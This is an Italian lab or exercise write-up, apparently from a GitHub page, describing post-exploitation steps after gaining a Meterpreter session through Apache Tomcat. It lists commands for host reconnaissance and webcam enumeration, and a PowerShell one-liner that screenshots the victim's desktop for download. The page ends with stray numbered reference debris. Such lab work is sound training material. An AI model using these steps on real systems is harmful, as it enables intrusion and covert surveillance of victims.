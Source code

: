 ##### 4.1 Verifica se la macchina è virtuale o fisica

- Eseguire il comando:
  ```bash
  sysinfo
  ```
- Per ulteriori verifiche, accedere alla shell:
  ```bash
  shell
  systeminfo
  ```

##### 4.2 Recupero delle impostazioni di rete

- Tornare a Meterpreter ed eseguire:
  ```bash
  ipconfig
  ```
- Annotare le configurazioni di rete.

##### 4.3 Controllo delle webcam

- Dalla shell di Windows, eseguire:
  ```bash
  wmic path win32_pnpentity get name | findstr /i "camera"
  ```

##### 4.4 Cattura di uno screenshot

- Aprire PowerShell dalla shell di Windows:
  ```powershell
  Add-Type -AssemblyName System.Windows.Forms; Add-Type -AssemblyName System.Drawing; $bmp = New-Object Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $graphics = [Drawing.Graphics]::FromImage($bmp); $graphics.CopyFromScreen(0, 0, 0, 0, $bmp.Size); $bmp.Save('C:\Windows\Temp\screenshot.png'); $bmp.Dispose(); $graphics.Dispose()
  ```
- Tornare a Meterpreter e scaricare lo screenshot:
  ```bash
  download C:\Windows\Temp\screenshot.png
  ```

### ✅ Conclusioni

- Il servizio Apache Tomcat è stato sfruttato con successo per ottenere una sessione Meterpreter.
- Sono state raccolte evidenze riguardo alla macchina target:
  - Tipo di macchina (virtuale o fisica).
  - Configurazioni di rete.
  - Stato delle webcam.
  - Screenshot del desktop.



[1]: 5
[2]: 3
[3]: 7
[4]: 9
[5]: 2
[6]: 8
[7]: 4
[8]: 1
[9]: 6
[10]: 10
[1]: 5
[2]: 3
[3]: 7
[1]: 1
[2]: 2
[3]: 3
[1]: 1
[2]: 2
[3]: 3
[1]: 1
[2]: 2
[1]: 1
[2]: 2